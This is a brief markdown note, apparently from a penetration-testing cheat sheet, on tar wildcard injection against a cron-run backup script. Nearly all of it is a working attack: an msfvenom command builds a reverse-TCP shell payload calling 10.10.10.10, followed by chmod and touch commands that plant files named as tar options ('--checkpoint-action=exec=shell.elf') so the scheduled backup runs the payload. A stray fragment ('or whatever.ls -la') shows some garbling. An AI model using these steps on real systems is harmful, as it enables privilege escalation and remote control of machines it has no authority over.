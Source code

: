 
When tar is run in a script that is run for example by a cron job and it has a `*`:

Example script:
```sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

If we put a reverse shell command in a file, for example:
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf`
or a script or whatever.ls -la
put it in the directory and set is as executable:
`chmod +x ./shell.elf`

And also make files to emulate the options to tar to run a file like this:
`touch ./--checkpoint=1`
`touch ./--checkpoint-action=exec=shell.elf`

When the script is run it will run our executable!

---

